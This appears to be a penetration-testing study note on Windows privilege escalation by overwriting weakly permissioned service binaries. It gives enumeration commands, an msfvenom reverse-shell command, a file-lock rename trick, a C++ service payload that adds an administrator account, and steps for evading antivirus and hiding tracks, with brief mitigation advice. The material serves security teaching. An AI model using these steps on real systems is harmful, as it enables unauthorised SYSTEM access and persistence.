

# Modifiable Service Binaries

## Introduction

A "Modifiable Service Binary" (also known as a Weak File Permission vulnerability) is a straightforward but highly critical privilege escalation vector in Windows. Unlike "Weak Service Permissions" where the attacker modifies the configuration of the service inside the Service Control Manager (SCM), this vulnerability relies entirely on the file system.

If a Windows service is configured to run under a high-privileged account (such as `NT AUTHORITY\SYSTEM`), it executes a specific binary file (e.g., `.exe`) located on the disk. If the Discretionary Access Control List (DACL) of that specific executable file—or the folder containing it—grants "Write" or "Modify" permissions to a low-privileged user, the attacker can simply replace the legitimate executable with a malicious one. When the service starts, it unknowingly executes the attacker's payload.

## The Execution Flow

The premise is exceedingly simple: the Service Control Manager blindly trusts the executable sitting at the path defined in the registry. It does not natively verify the hash, digital signature, or integrity of the binary before executing it (unless specific, modern application control policies like Windows Defender Application Control - WDAC are enforced).



## Enumeration and Identification

To exploit this, an attacker must cross-reference two pieces of information:
1.  A list of all services and their associated `binPath` (ImagePath).
2.  The file system permissions of those `binPath` executables.

### Step 1: Enumerating Service Executables
Using WMI to get a clean list of service paths:
```cmd
C:\> wmic service get name, displayname, pathname, startmode
```
*Output snippet:*
```text
FileZilla Server   FileZilla Server  "C:\Program Files\FileZilla Server\FileZilla server.exe"   Auto
Vuln Service       VulnSvc           C:\Enterprise\Backup\backup_agent.exe                      Auto
```

### Step 2: Checking File System Permissions
The built-in tool `icacls` (Integrity Control Access Control List) is used to verify the permissions on the executable and its parent directory.

```cmd
C:\> icacls C:\Enterprise\Backup\backup_agent.exe
C:\Enterprise\Backup\backup_agent.exe
    BUILTIN\Users:(I)(M)
    NT AUTHORITY\SYSTEM:(I)(F)
    BUILTIN\Administrators:(I)(F)
```
*Understanding icacls output:*
- `(I)`: Inherited permission (inherited from the parent folder `C:\Enterprise\Backup\`).
- `(M)`: Modify access. This includes Read, Write, Execute, and Delete.
- `(F)`: Full Control.

Because `BUILTIN\Users` has `(M)` access, any standard, unprivileged user on this system can modify or overwrite the `backup_agent.exe` file.

Alternatively, using `AccessChk` from Sysinternals provides a clearer output:
```cmd
C:\> accesschk.exe -qwuv "Users" C:\Enterprise\*

  RW C:\Enterprise\Backup\backup_agent.exe
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```
The presence of `FILE_WRITE_DATA` and `DELETE` confirms the file can be overwritten.

## Exploitation Process

The exploitation process requires careful handling, primarily because if the service is currently running, Windows places a file lock on the executable, preventing you from simply overwriting or deleting it.

### Step 1: Crafting the Payload
We can create a reverse shell or a command execution payload. 

```bash
# Attacker Machine using MSFvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o backup_agent.exe
```

*Note on Service Payloads:* Standard executables do not communicate with the Service Control Manager. When the SCM starts our payload, it will execute our code, but because it doesn't receive the expected RPC response, the SCM will terminate the process after ~30 seconds. For a simple command (like adding a user), this is fine. For a reverse shell, the shell will die after 30 seconds unless you immediately migrate to another process (like `spoolsv.exe`). Alternatively, you can use the `windows/x64/meterpreter_reverse_tcp` payload but format it as a service executable (`-f exe-service`), which includes the necessary SCM handling code.

### Step 2: Dealing with File Locks
If the service is running, attempting to overwrite the file will result in an "Access Denied" or "The process cannot access the file because it is being used by another process" error.

If you have permissions to stop the service (`sc stop VulnSvc`), do so. 
If you do not have permission to stop the service, there is a classic bypass trick: **Rename the original file.**
Even if an executable is running and locked for writing/deleting, Windows often allows a user with Modify permissions to *rename* the file or move it within the same volume.

```cmd
C:\> cd C:\Enterprise\Backup\
C:\Enterprise\Backup\> rename backup_agent.exe backup_agent.exe.bak
```

### Step 3: Placing the Payload
Once the original file is renamed (or if the service was stopped), copy the malicious payload into the directory using the exact original filename.

```cmd
C:\Enterprise\Backup\> copy C:\Temp\backup_agent.exe C:\Enterprise\Backup\backup_agent.exe
```

### Step 4: Triggering Execution
The payload is now staged. To execute it, the service must be started.
If we can restart it manually:
```cmd
C:\> sc stop VulnSvc
C:\> sc start VulnSvc
```

If we cannot restart it manually, we must check the start type:
```cmd
C:\> sc qc VulnSvc
```
If the start type is `AUTO_START`, we can reboot the machine (`shutdown /r /t 0`). Upon boot, the SCM will execute our payload as SYSTEM. If we cannot reboot, we must wait for an administrator to do so.

### Step 5: Post-Exploitation Cleanup
Once SYSTEM access is achieved (e.g., via a reverse shell), it is critical to restore the original binary to prevent the system from breaking permanently and to hide your tracks.

```cmd
C:\> del C:\Enterprise\Backup\backup_agent.exe
C:\> rename C:\Enterprise\Backup\backup_agent.exe.bak backup_agent.exe
C:\> sc start VulnSvc
```

## Creating a Custom C++ Service Payload

Instead of relying on MSFvenom, which is heavily fingerprinted by AV, you can write a simple C++ service executable. This template ensures the SCM is happy and doesn't terminate your process.

```cpp
#include <windows.h>
#include <stdio.h>

#define SERVICE_NAME TEXT("VulnSvc")

SERVICE_STATUS ServiceStatus;
SERVICE_STATUS_HANDLE hStatus;

void ServiceMain(int argc, char** argv);
void ControlHandler(DWORD request);
int RunPayload();

int main() {
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = SERVICE_NAME;
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
    StartServiceCtrlDispatcher(ServiceTable);
    return 0;
}

void ServiceMain(int argc, char** argv) {
    ServiceStatus.dwServiceType = SERVICE_WIN32;
    ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
    ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;

    hStatus = RegisterServiceCtrlHandler(SERVICE_NAME, (LPHANDLER_FUNCTION)ControlHandler);
    
    // Execute Payload
    RunPayload();

    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    SetServiceStatus(hStatus, &ServiceStatus);
}

void ControlHandler(DWORD request) {
    switch(request) {
        case SERVICE_CONTROL_STOP:
        case SERVICE_CONTROL_SHUTDOWN:
            ServiceStatus.dwWin32ExitCode = 0;
            ServiceStatus.dwCurrentState = SERVICE_STOPPED;
            SetServiceStatus(hStatus, &ServiceStatus);
            return;
        default:
            break;
    }
    SetServiceStatus(hStatus, &ServiceStatus);
}

int RunPayload() {
    system("net localgroup administrators attacker /add");
    return 0;
}
```
Compile this with Mingw (`x86_64-w64-mingw32-g++ payload.cpp -o backup_agent.exe`). This payload will add the user, report a clean start to the SCM, and stay running silently.

## Mitigation

System administrators must enforce the Principle of Least Privilege on the file system.
- Executables installed as system services must reside in protected directories like `C:\Program Files\` or `C:\Windows\System32\`.
- If a service must be installed in a custom location (e.g., `C:\Enterprise\`), the DACL for that directory must explicitly deny `Write` and `Modify` permissions to `BUILTIN\Users` and `Everyone`, reserving them only for `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators`.

## Chaining Opportunities
- **Defense Evasion:** Renaming the locked file is a bypass for standard file-locking mechanisms, often fooling entry-level SOC analysts.
- **Persistence:** Because the malicious executable replaces a service, it will execute every time the system boots, acting as a form of [[Windows Persistence Mechanisms]].

## Related Notes
- [[01 - Windows PrivEsc Methodology Overview]]
- [[03 - Unquoted Service Paths]]
- [[04 - Weak Service Permissions]]
- [[Windows Access Control Models]]
